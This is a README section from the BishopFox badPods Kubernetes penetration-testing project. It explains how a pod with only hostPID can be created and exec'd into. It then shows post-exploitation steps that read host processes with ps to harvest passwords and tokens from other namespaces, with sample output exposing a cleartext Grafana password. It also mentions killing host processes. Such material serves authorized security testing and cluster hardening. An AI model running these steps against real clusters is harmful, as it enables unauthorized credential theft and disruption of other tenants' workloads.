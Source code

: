 ## hostPIDonly pod - You can create a pod with only hostPID

If you only have `hostPID=true`, you most likely won't get RCE on the host, but you might find sensitive application secrets that belong to pods in other namespaces. This can be use to gain unauthorized access to applications and services in other namespaces or outside the cluster, and can potentially be used to further comprise the cluster. 

[pod-hostpid-only.yaml](pod-hostpid-only.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-hostpid-only.yaml  [-n namespace] 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/pod-hostpid-only.yaml [-n namespace] 
```

### Exec into pod 
```bash 
kubectl -n [namespace] exec -it pod-hostpid-only -- bash
```
### Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc. 
# Check out that clear text password in the ps output below! 

ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...

# Also, you can also kill any process, but don't do that in production :)
```

